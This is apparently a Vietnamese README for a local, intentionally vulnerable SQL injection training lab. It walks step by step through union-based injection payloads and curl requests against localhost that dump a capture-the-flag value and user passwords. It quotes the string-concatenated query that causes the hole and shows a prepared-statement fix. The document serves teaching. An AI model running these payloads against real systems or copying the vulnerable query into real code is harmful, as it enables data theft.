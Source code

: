 # 🎯 Hướng Dẫn Demo SQL Injection Lab

## 🚀 Khởi động dự án

```bash
npm install
npm start
```

Server sẽ chạy tại: `http://localhost:3000`

## 📝 Các bước thực hành

### Bước 1: Truy cập trang chủ

-   Mở trình duyệt: `http://localhost:3000`
-   Bạn sẽ thấy danh sách các lab
-   Click vào **"SQL Injection"** để bắt đầu

### Bước 2: Xem danh sách posts

-   Khi vào trang lab, bạn sẽ thấy **tất cả title** từ bảng posts hiển thị ngay
-   Có 5 bài viết được hiển thị sẵn

### Bước 3: Tìm kiếm bình thường

Thử tìm kiếm với từ khóa thông thường:

```
SQL
```

Kết quả: Hiển thị bài viết "SQL Injection là gì?"

### Bước 4: Phát hiện lỗ hổng

Thử nhập ký tự đặc biệt:

```
'
```

Sẽ thấy lỗi SQL → Xác nhận có lỗ hổng SQL Injection

### Bước 5: Xác định số cột

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

→ Lỗi ở ORDER BY 3 → Có 2 cột

### Bước 6: Union-based SQL Injection

Test với Union:

```
' UNION SELECT 1,2--
```

### Bước 7: Khám phá các bảng

Lấy danh sách bảng trong database:

```
' UNION SELECT 1, name FROM sqlite_master WHERE type='table'--
```

Kết quả sẽ hiển thị:

-   posts
-   users
-   secret

### Bước 8: Xem cấu trúc bảng secret

```
' UNION SELECT 1, sql FROM sqlite_master WHERE name='secret'--
```

### Bước 9: Lấy FLAG 🚩

```
' UNION SELECT id, flag FROM secret--
```

**Kết quả:** `FLAG{SQL_1nj3ct10n_M4st3r}`

### Bước 10: Lấy thông tin users

```
' UNION SELECT id, username FROM users--
' UNION SELECT id, password FROM users--
' UNION SELECT username, password FROM users--
```

## 🧪 Test bằng cURL

### Tìm kiếm bình thường:

```bash
curl "http://localhost:3000/api/search?q=SQL"
```

### Lấy flag:

```bash
curl "http://localhost:3000/api/search?q=%27%20UNION%20SELECT%20id,%20flag%20FROM%20secret--"
```

### Lấy users:

```bash
curl "http://localhost:3000/api/search?q=%27%20UNION%20SELECT%20username,%20password%20FROM%20users--"
```

## 🔍 Giải thích kỹ thuật

### Tại sao có lỗ hổng?

Code trong `server.js`:

```javascript
const query = `SELECT id, title FROM posts WHERE title LIKE '%${searchTerm}%'`;
```

❌ **Vấn đề**: Nối chuỗi trực tiếp input của user vào SQL query

### Cách khai thác:

1. **Input**: `' UNION SELECT id, flag FROM secret--`
2. **Query thực tế**:

```sql
SELECT id, title FROM posts WHERE title LIKE '%' UNION SELECT id, flag FROM secret--%'
```

3. **Giải thích**:
    - `%'` → Kết thúc điều kiện LIKE
    - `UNION SELECT id, flag FROM secret` → Lấy dữ liệu từ bảng secret
    - `--` → Comment phần còn lại của query (`%'`)

### Cách phòng chống:

✅ **Sử dụng Prepared Statements**:

```javascript
const query = `SELECT id, title FROM posts WHERE title LIKE ?`;
db.all(query, [`%${searchTerm}%`], callback);
```

## 🎓 Bài tập nâng cao

1. **Thử lấy email của users**
2. **Đếm số lượng bảng trong database**
3. **Lấy tất cả tên cột của bảng secret**
4. **Kết hợp nhiều thông tin từ nhiều bảng**

## 📊 Cấu trúc Database

### Bảng posts:

| id  | title            | content             |
| --- | ---------------- | ------------------- |
| 1   | Chào mừng...     | Đây là bài viết...  |
| 2   | SQL Injection... | SQL Injection là... |

### Bảng users:

| id  | username | password | email           |
| --- | -------- | -------- | --------------- |
| 1   | admin    | admin123 | admin@lab.local |

### Bảng secret:

| id  | flag                       | description         |
| --- | -------------------------- | ------------------- |
| 1   | FLAG{SQL_1nj3ct10n_M4st3r} | Bí mật của hệ thống |

## ⚠️ Lưu ý quan trọng

-   Đây là môi trường thực hành **CÓ LỖ HỔNG CỐ TÌNH**
-   **KHÔNG BAO GIỜ** viết code như vậy trong production
-   Luôn validate và sanitize user input
-   Sử dụng Prepared Statements/Parameterized Queries
-   Implement proper error handling

---

Happy Hacking! 🎉 (Trong môi trường lab an toàn)
